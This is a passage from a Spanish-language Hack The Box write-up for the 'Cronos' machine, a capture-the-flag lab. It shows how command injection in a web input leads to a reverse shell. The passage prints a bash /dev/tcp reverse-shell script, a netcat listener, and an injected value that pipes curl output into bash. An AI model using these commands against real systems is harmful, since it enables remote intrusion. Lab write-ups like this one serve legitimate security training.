 Como podemos ejecutar **curl** podemos hacer que haga una petición a un recurso que vamos a estar ofreciendo mediante nuestro servidor **http** con **Python3** y nos llegue la **shell**

```bash
❯ catn index.html
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.12/443 0>&1
```

Ahora nos podemos en escucha por el puerto **443** o el que tu quieras

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y podemos el servidor 

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora ejecutamos esto `10.10.14.12; curl 10.10.14.12 | bash` en la parte del input y al darle a **execute** nos llega la **reverse shell**

![](/assets/images/htb-writeup-cronos/web11.png)
